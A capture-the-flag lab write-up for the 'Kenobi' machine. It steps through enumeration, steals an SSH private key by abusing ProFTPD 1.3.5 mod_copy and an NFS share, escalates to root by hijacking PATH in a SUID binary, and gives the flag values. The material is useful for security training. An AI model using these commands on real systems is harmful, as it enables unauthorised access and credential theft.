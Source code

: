 # kenobi

IP = `10.10.76.229`


## NMAP

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100021  1,3,4      37781/tcp6  nlockmgr
|_  100021  1,3,4      41352/udp6  nlockmgr
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs         2-4 (RPC #100003)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time:
|   date: 2024-09-04T04:50:29
|_  start_date: N/A
|_clock-skew: mean: 1h40m01s, deviation: 2h53m13s, median: 1s
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2024-09-03T23:50:29-05:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```


### smbclient

`smbclient -NL 10.10.76.229`

```

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk
        IPC$            IPC       IPC Service (kenobi server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            KENOBI

```

#### List smb shares

```
$ smbclient //10.10.76.229/anonymous
Password for [WORKGROUP\vagrant]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 06:49:09 2019
  ..                                  D        0  Wed Sep  4 06:56:07 2019
  log.txt                             N    12237  Wed Sep  4 06:49:09 2019

                9204224 blocks of size 1024. 6877108 blocks available
smb: \> get log.txt
getting file \log.txt of size 12237 as log.txt (6.5 KiloBytes/sec) (average 6.5 KiloBytes/sec)
smb: \>

```

#### List nfs shares to mount

`$ /usr/sbin/showmount -e 10.10.76.229`

```
Export list for 10.10.76.229:
/var *
```

### Searchsploit (proftpd 1.3.5)

```
$ searchsploit proftpd 1.3.5
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                 | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                       | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                   | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                 | linux/remote/36742.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

## Initial Foothold

> The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

> We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```
$ nc 10.10.76.229 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.76.229]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful


```


Lets mount the /var/tmp directory to our machine
![](https://i.imgur.com/v8Ln4fu.png)

```
mkdir /mnt/kenobiNFS
mount 10.10.76.229:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

`cp /mnt/var/tmp/id_rsa /home/kali/kenobi/`
`chmod 600 id_rsa`
`ssh -i id_rsa kenobi@10.10.201.29`

Got User!

**User Flag**

`d0b0f3f53b6caa532a83915e19224899`

## Privilege Escaltion

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6

```

`/usr/bin/menu` stand out

Strings is a command on Linux that looks for human readable strings on a binary.

```
kenobi@kenobi:~$ strings /usr/bin/menu
`--SNIP--
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
--SNIP--

```
This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
As this file runs as the root users privileges, we can manipulate our path gain a root shell.


```
kenobi@kenobi:/tmp$ ls -la /usr/bin/menu
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu

kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH

```

exploit

```
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 

```

Got Root!

**Root Flag**
`177b3cd8562289f37382721c28381f02`